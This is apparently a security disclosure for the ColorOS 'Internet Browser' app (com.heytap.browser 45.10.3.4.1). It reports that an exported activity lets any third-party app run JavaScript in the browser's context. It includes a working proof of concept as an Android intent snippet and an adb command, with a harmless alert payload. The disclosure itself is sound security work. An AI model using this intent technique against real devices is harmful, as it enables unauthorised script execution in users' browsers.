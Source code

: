 ## Vulnerability Report

### Overview:
A vulnerability has been discovered in the `com.heytap.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - ColorOS
- **Application Name:** 'Internet Browser' `com.heytap.browser`
- **Version:** 45.10.3.4.1
- **Component:** com.android.browser.RealBrowserActivity

### Vulnerability Details:

- **Vulnerability Type:** JavaScript Code Execution
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.android.browser.RealBrowserActivity` activity in the `com.heytap.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.heytap.browser`` application.


### Proof of Concept (PoC):


```
{
        super.onCreate(savedInstanceState);

        String javaScriptCommand = "javascript:alert%28%27Test%20Alert%27%29%3B";

        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setData(Uri.parse(javaScriptCommand));
        intent.setClassName("com.heytap.browser", "com.android.browser.RealBrowserActivity");

        startActivity(intent);

        finish();
    }
```

```

adb shell am start -a android.intent.action.VIEW -d "javascript:alert%28%27Test%20Alert%27%29%3B" -n com.heytap.browser/com.android.browser.RealBrowserActivity

```

![com heytap browser- 45 10 3 4 1-JS](https://github.com/user-attachments/assets/df6abee3-525e-45b0-8439-223707074010)
![poc-coloros](https://github.com/actuator/com.heytap.browser/assets/78701239/952f08c7-b8d6-4982-80bb-28b693b20134)




### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.heytap.browser` app.


